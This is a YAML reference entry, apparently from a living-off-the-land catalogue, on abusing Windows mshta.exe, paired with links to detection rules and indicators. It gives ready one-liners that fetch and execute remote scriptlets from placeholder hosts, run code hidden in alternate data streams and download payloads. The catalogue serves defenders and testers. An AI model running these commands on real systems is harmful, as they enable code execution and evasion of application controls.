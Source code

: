 ```yaml
---
Name: Mshta.exe
Description: Used by Windows to execute html applications. (.hta)
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: WSH
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https://webserver/payload.sct"")"))
    Description: Executes VBScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe javascript:a=GetObject("script:https://webserver/payload.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
    Usecase: Execute code
    Category: Execute
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
    Usecase: Execute code hidden in alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1218.005
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 (Does not work on 1903 and newer)
    Tags:
      - Execute: WSH
  - Command: mshta.exe https://example.com/payload
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\System32\mshta.exe
  - Path: C:\Windows\SysWOW64\mshta.exe
Code_Sample:
  - Code: https://gist.github.com/bohops/6ded40c4989c673f2e30b9a6c1985019
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_susp_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hktl_invoke_obfuscation_via_use_mhsta.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_lethalhta_technique.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/image_load/image_load_susp_script_dotnet_clr_dll_load.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f8f643041a584621e66cf8e6d534ad3db92edc29/rules/windows/defense_evasion_mshta_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/lateral_movement_dcom_hta.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Splunk: https://github.com/splunk/security_content/blob/08ed88bd88259c03c771c30170d2934ed0a8f878/stories/suspicious_mshta_activity.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_renamed.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_spawn.yml
  - Splunk: https://github.com/splunk/security_content/blob/18f63553a9dc1a34122fa123deae2b2f9b9ea391/detections/endpoint/suspicious_mshta_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_mshta_url_in_command_line.yml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - IOC: mshta.exe executing raw or obfuscated script within the command-line
  - IOC: General usage of HTA file
  - IOC: msthta.exe network connection to Internet/WWW resource
  - IOC: DotNet CLR libraries loaded into mshta.exe
  - IOC: DotNet CLR Usage Log - mshta.exe.log
Resources:
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - Link: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

